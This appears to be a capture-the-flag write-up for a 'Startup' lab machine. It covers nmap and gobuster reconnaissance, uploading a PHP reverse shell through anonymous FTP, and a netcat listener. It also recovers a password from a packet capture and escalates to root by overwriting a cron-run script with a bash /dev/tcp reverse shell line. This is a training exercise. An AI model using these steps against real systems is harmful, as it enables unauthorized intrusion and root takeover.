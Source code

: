 # Startup WriteUp
WriteUp for Startup challenge

## Reconnaissance
If we run **nmap**, we'll see that there are 3 ports open:
```sh
- 21 with FTP protocol (Anonymous login allowed)
- 22 with TCP protocol
- 80 with HTTP protocol
```
let's also run gobuster so we know if there's hidden directories that may contain more informations, therefore we'll find:
```sh
/.php                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 808]
/files                (Status: 301) [Size: 310] [--> http://10.10.32.68
```
if we go to **files** directory, we'll find that it's the place to store files they use in their website.
```sh
ftp/
important.jpg
notice.txt
```

## Gaining Access
it's interesting that we could see the ftp folder, where we might put reverse shell via ftp and gaining access to it's web server.
So let's go further using ftp connection, and when we're inside, we'll see directory and files we've seen before when we access **files** directory using http protocol. Now, let's use 1001 user reverse shell code from monkey-pentest, dont' forget to change the IP to your tun0 IP, and your prefereable port. Let's went to ftp dir, and copy reverse shell code from local dir to ftp dir using **put**.
```sh
lcd [path  where u put your reverse shell]
cd ftp
put reverseshell.php
```
after we copy our file to ftp, now let's create a listener using netcat
```sh
nc -lnvp 1234
```
Therefore we've gain access to it's webserver

## Further Information gathering
when we go to home directory, we'll see there's **recipe.txt** which is the first ingredients from the first question
inside. when we go to home, where we might find user.txt, we'll find **lennie** directory, but we unable to gain access to it due to permission denied, so let's find more information. Another clue is let's back to / dir, and inside the **incidents** dir, we'll see a **suspicious.pcapng** file. let's copy it to our local directory:
```sh
#in remote machine
python -m SimpleHTTPServer
#in local
wget http://[machine ip]/suspicious.pcapng
```
follow tcp stream and we'll see that user lennie has password c4ntg3t3n0ughsp1c3.
Let's connect it via ssh.

inside, we'll get the second answer **user.txt**.

## Privillage Escalation
in lennie home dir, scripts dir had two files:
- planner.sh
- startup.list
planner.sh script is:
```sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
while print.sh is:
```sh
#!/bin/bash
echo "Done!"
```
we can overwrite print.sh using reverse shell:
```sh
bash -i >& /dev/tcp/10.18.108.222/3333 0>&1
```
and just execute **sudo -l**, and we gain privillage escalation as root, then get the third answer **root.txt**

